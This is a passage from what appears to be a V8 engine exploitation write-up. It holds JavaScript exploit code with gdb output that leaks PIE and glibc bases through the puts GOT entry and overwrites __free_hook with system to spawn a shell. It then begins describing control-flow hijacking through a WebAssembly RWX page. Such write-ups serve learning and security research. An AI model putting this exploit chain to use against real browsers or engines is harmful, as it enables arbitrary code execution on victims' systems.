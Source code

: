 #### Leak glibc

Once we leak the PIE base, we can leak the `puts_got` symbol which is located at the `.got` segement and points to the function on the glibc page.

```
(gdb) got puts
GOT protection: Full RelRO | GOT functions: 228 
[0x5644e9dfe3b8] puts@GLIBC_2.2.5  →  0x7fd36c527970
```

```
let puts_got_addr = pie_base_addr + 0xD9A3B8n;
let puts_addr = arb_read(puts_got_addr);
let libc_base_addr = puts_addr - 0x80970n;
console.log("[+] Leak a libc pointer: 0x" + libc_base_addr.toString(16));
```

#### Overwrite the __free_hook to system

Then, we try to calculate the offset of `__free_hook` and `system` on within glibc.
```
(gdb) p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7f55961f08e8 <__free_hook>

(gdb) p system
$2 = {int (const char *)} 0x7f5595e52420 <__libc_system>
```

```
let free_hook_addr = libc_base_addr + 0x3ed8e8n;
let system_addr = libc_base_addr + 0x4f420n;
arb_write(free_hook_addr, system_addr);
%SystemBreak();

// OUTPUT CHECK
(gdb) p __free_hook
$1 = (void (*)(void *, const void *)) 0x7fc5e6103420 <__libc_system>
```

Then, we just need that following line which will trigger `system('/bin/sh')` when the `/bin/sh` string is being freed.
```
console.log("/bin/sh");
```

### Achieve Control-flow Hijacking: Create RWX page with WebAssembly

In earlier versions of V8, the engine would generate a read-write-execute (RWX) page for WebAssembly code. The `wasm_code` in the following snippet is a simple function `main`, that returns 42. This setup ensures V8 generates an `RWX` page. Once the function is invoked, V8 jumps to the starting address of the `RWX` page, which serves as a jump table, redirecting the control flow to the `main` function.

![](./assets/double-array-2.jpg)
